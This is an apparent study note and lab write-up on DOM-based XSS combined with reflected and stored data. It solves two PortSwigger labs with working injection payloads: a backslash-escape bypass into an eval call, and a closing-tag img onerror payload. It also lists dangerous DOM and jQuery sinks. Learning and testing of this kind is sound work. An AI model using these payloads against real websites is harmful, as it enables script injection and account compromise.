 ```yaml
---
sidebar_position: 8
image: "https://www.cloudflare.com/img/learning/security/threats/cross-site-scripting/xss-attack.png"
tags: ["DOM"]
---
```


## DOM XSS combined with reflected and stored data

Some pure DOM-based vulnerabilities are self-contained within a single page. If a script reads some data from the URL and writes it to a dangerous sink, then the vulnerability is entirely client-side.

However, sources aren't limited to data that is directly exposed by browsers - they can also originate from the website. For example, websites often reflect URL parameters in the HTML response from the server. This is commonly associated with normal XSS, but it can also lead to so-called reflected+DOM vulnerabilities.

In a reflected+DOM vulnerability, the server processes data from the request, and echoes the data into the response. The reflected data might be placed into a JavaScript string literal, or a data item within the DOM, such as a form field. A script on the page then processes the reflected data in an unsafe way, ultimately writing it to a dangerous sink.

`eval('var data = "reflected string"');`

## Lab: Reflected DOM XSS

> This lab demonstrates a reflected DOM vulnerability. Reflected DOM vulnerabilities occur when the server-side application processes data from a request and echoes the data in the response. A script on the page then processes the reflected data in an unsafe way, ultimately writing it to a dangerous sink.
> To solve this lab, create an injection that calls the `alert()` function.

--> I Found one js file called `searchItem.js` in source code and This part was interesting:

```js
var xhr = new XMLHttpRequest();
xhr.onreadystatechange = function () {
  if (this.readyState == 4 && this.status == 200) {
    eval("var searchResultsObj = " + this.responseText);
    displaySearchResults(searchResultsObj);
  }
};
xhr.open("GET", path + window.location.search);
xhr.send();
```

--> I tried payloads like `'alert(1)` and `"alert(1)` to close the quotes and trigger the alert but it was escaping quotes using `\` so after that i bypassed it using `\"` where one `\` will escape this backslash and `"` will end the string.

==> But how we can trigger an alert here?

--> So i found that we can use any arithmetic operator to add js function

So i made this payload:

```js
\"-alert(1)//
```

Here `\"` will bypass and close the `searchresultObj` value and `-` used the seperate the operations and at last `//` will comment out rest of the json data.

Payload will look like this in backend :

```js
{"searchTerm":"\\"-alert(1)}//", "results":[]}
```

--> And after entering this payload i solved the lab!

---

Websites may also store data on the server and reflect it elsewhere. In a stored+DOM vulnerability, the server receives data from one request, stores it, and then includes the data in a later response. A script within the later response contains a sink which then processes the data in an unsafe way.

`element.innerHTML = comment.author`

## Lab: Stored DOM XSS

> This lab demonstrates a stored DOM vulnerability in the blog comment functionality. To solve this lab, exploit this vulnerability to call the `alert()` function

--> So i found one js file in source code of post comment section which was `loadCommentsWithVulnerableEscapeHtml.js`

And i found this part intersting :

```js
if (comment.author) {
  if (comment.website) {
    let websiteElement = document.createElement("a");
    websiteElement.setAttribute("id", "author");
    websiteElement.setAttribute("href", comment.website);
    firstPElement.appendChild(websiteElement);
  }

  let newInnerHtml = firstPElement.innerHTML + escapeHTML(comment.author);
  firstPElement.innerHTML = newInnerHtml;
}
```

And `escapeHTML` function looks like this:

```js
function escapeHTML(html) {
  return html.replace("<", "&lt;").replace(">", "&gt;");
}
```

So this function is replacing `>` and `<` but it's using `replace` function which will replace only first occurance of tag. So i tried simple `img` payload which looks like this:

```html
<img src="x" onerror="alert(1)" />
```

And after entering it into `author` field i saw the source code using inspect element and it looks like this:

![](Attachments/Pastedimage20220331130723.png)

So it didn't get executed so i tried to close that `p` tag and again opened it like this:

```html
</p><img src=x onerror=alert(1)><p>
```

And it worked!

And it looks like this in code:

![](Attachments/Pastedimage20220331130840.png)

And we solved the lab!

---

## Which sinks can lead to DOM-XSS vulnerabilities?

The following are some of the main sinks that can lead to DOM-XSS vulnerabilities:

```js
document.write();
document.writeln();
document.domain;
element.innerHTML;
element.outerHTML;
element.insertAdjacentHTML;
element.onevent;
```

The following jQuery functions are also sinks that can lead to DOM-XSS vulnerabilities:

```js
add();
after();
append();
animate();
insertAfter();
insertBefore();
before();
html();
prepend();
replaceAll();
replaceWith();
wrap();
wrapInner();
wrapAll();
has();
constructor();
init();
index();
jQuery.parseHTML();
$.parseHTML();
```

## How to prevent DOM-XSS vulnerabilities

In addition to the general measures described on the [DOM-based vulnerabilities](https://portswigger.net/web-security/dom-based) page, you should avoid allowing data from any untrusted source to be dynamically written to the HTML document.
